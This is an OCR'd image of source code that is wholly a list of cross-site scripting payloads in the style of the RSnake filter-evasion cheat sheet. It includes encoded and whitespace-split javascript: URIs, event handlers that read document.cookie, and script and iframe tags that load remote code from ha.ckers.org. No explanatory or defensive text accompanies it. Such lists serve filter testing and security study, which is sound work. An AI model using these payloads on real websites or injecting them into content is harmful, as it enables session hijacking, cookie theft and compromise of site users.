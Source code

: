       <IMG SRC=JaVaScRiPt:alert('XSS')>
      <IMG SRC=javascript:alert("XSS")>
      <IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
      <a onmouseover="alert(document.cookie)">xxs link</a>
      <a onmouseover=alert(document.cookie)>xxs link</a>
      <IMG """><SCRIPT>alert("XSS")</SCRIPT>">
      <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
      <IMG SRC=# onmouseover="alert('xxs')">
      <IMG SRC= onmouseover="alert('xxs')">
      <IMG onmouseover="alert('xxs')">
      <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
      <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
      &#39;&#88;&#83;&#83;&#39;&#41;>
      <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
      #0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
      <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
      <IMG SRC="jav	ascript:alert('XSS');">
      <IMG SRC="jav&#x09;ascript:alert('XSS');">
      <IMG SRC="jav&#x0A;ascript:alert('XSS');">
      <IMG SRC="jav&#x0D;ascript:alert('XSS');">
      <IMG SRC=" &#14;  javascript:alert('XSS');">
      <SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
      <SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <<SCRIPT>alert("XSS");//<</SCRIPT>
      <SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
      <SCRIPT SRC=//ha.ckers.org/.j>
      <IMG SRC="javascript:alert('XSS')"
      <iframe src=http://ha.ckers.org/scriptlet.html <
      \";alert('XSS');//
      </script><script>alert('XSS');</script>
      </TITLE><SCRIPT>alert("XSS");</SCRIPT>
      <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
      <BODY BACKGROUND="javascript:alert('XSS')">
      <IMG DYNSRC="javascript:alert('XSS')">

